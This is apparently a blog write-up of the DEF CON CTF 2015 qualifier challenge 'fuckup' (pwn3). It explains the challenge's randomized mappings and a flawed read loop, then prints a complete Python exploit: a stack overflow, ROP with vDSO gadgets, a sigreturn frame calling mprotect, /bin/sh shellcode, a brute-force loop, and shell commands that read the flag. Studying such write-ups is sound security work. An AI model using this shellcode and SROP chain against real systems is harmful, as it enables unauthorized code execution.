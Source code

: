 title: DEF CON CTF 2015 - fuckup (pwn3) Writeup
date: 2015-05-19 22:14:08
tags:
- writeup
- pwn
---

## Description
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:2000
OR
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:46387
> [Download](http://downloads.notmalware.ru/fuckup_56f604b0ea918206dcb332339a819344)

## Introduction

This is a PoC service for the new and improved ASLR, "Fully Unguessable Convoluted Kinetogenic Userspace Pseudoransomization"(F.U.C.K.U.P. for short).
Each time a user executes a command, F.U.C.K.U.P. changes the base address of memory where the binary is mapped according to a random number produced by the generation algorithm similar to WELL512.

We can select from the following commands:
 0. Quit: simply `return 0;`.
 1. Display info: Display an introduction. Nothing interesting.
 2. Change random: Generate a random value and move mappings correspondingly.
 3. View state info: Show the current random value and then change random as same as "Change random".
 4. Test stack smash: Cause stack based buffer overflow by 100 bytes against a 16-byte buffer.

Actually, I don't know the detailed implementations of these commands except for "Test stack smash", for it was not I but another team member who cope with this challenge at first.
It seems that the author's intended solution is to use SMT solver like z3 to predict random values generated, and my teammate attempted to do that. 
It, however, however,, didn't work correctly since we were unfamiliar with and poor at using SMT solver.
So I decided to try to solve this problem by the really "pwnwise" solution.

First, I suspected Partial Overwrite could be used.
Yes, actually it can be.
Reading `stack_smash(sub_8048521)`, there is called `read_n(sub_8048363)` which simply receives input as this:
```C
sum = 0;
do {
    nread = read(0, addr, n-sum);
    if (nread != -1) sum += nread;
} while (sum < n);
```
As you may see, this implementation is weird because using `read(0, addr, n-sum)` instead of `read(0, addr+sum, n-sum)`.
Therefore, it is possible to do Partial Overwrite by splitting input into several.
[@wapiflapi](https://twitter.com/wapiflapi/), a great hacker in France shares the exploit using this method([http://hastebin.com/iyinepaxen.py](http://hastebin.com/iyinepaxen.py)).
Very simple, isn't it?

BUT I COULD NOT COME UP WITH IT.
Because I misread `read_n` as `read(0, addr+sum, n-sum)`.
So at that time I thought "Wow, nice security. I have no choice but to overwrite a buffer completely by 100 bytes. If I can't use Partial Overwrite, then how can I solve this...?". Too stupid.
Okay, let me explain how I solved this problem even though I couldn't use z3 and Partial Overwrite.

## Solution
Thinking that the return address is always overwritten by a buffer overflow, I had to overwrite it with some valid address.
Here, valid address means a address being mapped and executable.
So there are two possible ways to exploit the binary:
 1. Fix valid addresses somehow.
 2. Use the addresses which are always fixed.

I thought the former could be realized because the number of mapped addresses goes on increasing by `change_mapping(sub_80481A6)`.
In change_mapping, `mmap` is called like this:
```C
do
{
    seedf = randf(state) * 4294967295.0;
    seedl = (int)seedf;
    expect = (void *)(seedl & 0xFFFFF000);
    actual = mmap(expect, 0x7000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
} while (expect != actual);
```
As you can see, the mapped addresses won't be unmapped even if it fails to establish mappings at expected addresses.
Therefore, the more the number of mapped addresses has increased, the less the number of the possible addresses capable of being becomes.
But this approach isn't realistic because it needs to do "Change random" many times(about thouthands or hundreds of thouthands times).

The latter, actually, can be realized: using VDSO.
I think everyone knows this, but VDSO ASLR is weaker than ASLR on the other sections(that entropy is usually only 2 bytes) and there is a famous exploit method, Sigreturn Oriented Programming(SROP).
That means we can solve this problem by doing brute force 256 times.
It was a little bit difficult for me to write the exploit due to the limitation that I had to do ROP only with gadgets on VDSO and that I was allowed to use only 100 bytes for ROP.
sysenter is a good gadget for stack pivotting!
```python
import subprocess
import socket
import re
import sys
import random
from struct import pack, unpack
from Frame import SigreturnFrame
from time import sleep
from sys import argv

TARGET = ('localhost', 6666)
if len(argv) > 1:
    TARGET  = ('fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me', 2000)

OFFSET_SR   = 0x401
OFFSET_SC   = 0x42e
OFFSET_SY   = 0x425
OFFSET_POP  = 0x431
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x54\x59\x50\x5a\x6a\x0b\x58\xcd\x80"

RANGE_VDSO  = range(0xf7700000, 0xf7800000, 0x1000)

def recv_until(sock, pat):
    buf = b''
    while buf.find(pat) == -1:
        buf += sock.recv(1)
    return buf

def main():
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(TARGET)

        vdso = random.choice(RANGE_VDSO)
        stack_addr = vdso - 0x800
        shellcode_addr = vdso - 0x1000
        print "vdso:", hex(vdso)

        data = b'\x00' * (0x16)
        data += pack('<I', vdso + OFFSET_POP)   # pop edx, ecx
        data += pack("<I", 2304)                # edx
        data += pack("<I", shellcode_addr)      # ecx

        data += pack('<I', vdso + OFFSET_SC)    # read(eax=3)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)

        data += pack('<I', vdso + OFFSET_SY)    # sysenter 
 
        print "data:", len(data)
        data = data.ljust(100, 'A')
        assert(len(data) == 100)

        recv_until(sock, b'0. Quit')
        sock.sendall(b'4\n')
        recv_until(sock, b'stop code execution')

        sock.sendall(data[:-3])
        sock.sendall("")
        sleep(1)
        sock.sendall(data[-3:]) # eax = 3

        stack = ""
        stack += pack("<I", 0xdeadbeef) * 3
        stack += pack("<I", vdso + OFFSET_SR)

        frame = SigreturnFrame(arch="x86")
        frame.set_regvalue("eax", 0x7d)           # mprotect
        frame.set_regvalue("ebx", shellcode_addr) # addr
        frame.set_regvalue("ecx", 0x1000)         # len
        frame.set_regvalue("edx", 7)              # prot
        frame.set_regvalue("eip", vdso + OFFSET_SC)
        frame.set_regvalue("esp", stack_addr+0x80)
        frame.set_regvalue("ds", 0x2b)
        frame.set_regvalue("es", 0x2b)

        stack += frame.get_frame()
        stack += pack("<I", shellcode_addr) * 40
        
        sleep(1)

        payload = SHELLCODE
        payload = payload.ljust(0x800, "\x90")
        payload += stack
        print "payload:", len(payload)
        assert(len(payload) <= 0x1000)

        sleep(1)
        sock.sendall(payload)
        sleep(0.1)

        sock.sendall("ls\n")
        sock.sendall("ls /home\n")
        sock.sendall("ls /home/fuckup\n")
        sock.sendall("ls /home/fuckup/flag\n")
        sock.sendall("ls /home/fuckup/*flag*\n")
        sock.sendall("cat /home/fuckup/*flag*\n")

        sleep(1)

        resp = ""
        resp += sock.recv(65535)
        if resp == '' or resp == '\n':
            raise Exception("Failed")
        print [resp]
        raw_input()
        
if __name__ == '__main__':
    i = 1
    while True:
        print "\nTry {}:".format(i)
        try:
            main()
        except Exception as e:
            print e
            pass
        i += 1
```
Using [Frame.py](https://github.com/eQu1NoX/srop-poc/blob/master/Frame.py).

```
['\nbin\nboot\ndev\netc\nhome\ninitrd.img\ninitrd.img.old\nlib\nlib64\nlost+found\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\nvmlinuz\nvmlinuz.old\nfuckup\nubuntu\nflag\nfuckup\n/home/fuckup/flag\n/home/fuckup/flag\nThe flag is: z3 always helps\n']
```

##Summary
Sleep enough not to misread disas.

written by hugeh0ge([@hugeh0ge](https://twitter.com/hugeh0ge))
